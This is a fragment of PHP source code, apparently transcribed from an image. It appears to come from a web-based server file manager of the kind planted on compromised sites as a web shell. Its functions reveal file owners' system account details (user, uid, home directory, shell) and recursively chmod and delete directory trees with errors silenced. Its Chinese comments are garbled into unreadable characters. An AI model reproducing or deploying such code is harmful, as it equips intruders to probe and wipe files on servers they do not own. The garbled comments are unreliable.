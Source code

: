 function getUser($filepath)	{
	if (function_exists('posix_getpwuid')) {
		$array = @posix_getpwuid(@fileowner($filepath));
		if ($array && is_array($array)) {
			return ' / &lt;a href="#" title="User: '.$array['name'].'&#13&#10Passwd: '.$array['passwd'].'&#13&#10Uid: '.$array['uid'].'&#13&#10gid: '.$array['gid'].'&#13&#10Gecos: '.$array['gecos'].'&#13&#10Dir: '.$array['dir'].'&#13&#10Shell: '.$array['shell'].'"&gt;'.$array['name'].'&lt;/a&gt;';
		}
	}
	return '';
}

// É¾³ýÄ¿Â¼
function deltree($deldir) {
	$mydir=@dir($deldir);	
	while($file=$mydir-&gt;read())	{ 		
		if((is_dir($deldir.'/'.$file)) && ($file!='.') && ($file!='..')) { 
			@chmod($deldir.'/'.$file,0777);
			deltree($deldir.'/'.$file); 
		}
		if (is_file($deldir.'/'.$file)) {
			@chmod($deldir.'/'.$file,0777);
			@unlink($deldir.'/'.$file);
		}
	} 
	$mydir-&gt;close(); 
	@chmod($deldir,0777);
	return @rmdir($deldir) ? 1 : 0;
}

// ±í¸ñÐÐ¼äµÄ±³¾°É«Ìæ»»
function bg() {
	global $bgc;
	return ($bgc++%2==0) ? 'alt1' : 'alt2';
}

// »ñÈ¡µ±Ç°µÄÎÄ¼þÏµÍ³Â·¾¶
function getPath($scriptpath, $nowpath) {
	if ($nowpath == '.') {
		$nowpath = $scriptpath;
	}
	$nowpath = str_replace('\\', '/', $nowpath);
	$nowpath = str_replace('//', '/', $nowpath);
	if (substr($nowpath, -1) != '/') {
		$nowpath = $nowpath.'/';
	}
	return $nowpath;
}

// »ñÈ¡µ±Ç°Ä¿Â¼µÄÉÏ¼¶Ä¿Â¼
function getUpPath($nowpath) {
	$pathdb = explode('/', $nowpath);
	$num = count($pathdb);
	if ($num &gt; 2) {
		unset($pathdb[$num-1],$pathdb[$num-2]);
	}
	$uppath = implode('/', $pathdb).'/';
	$uppath = str_replace('//', '/', $uppath);
	return $uppath;
}
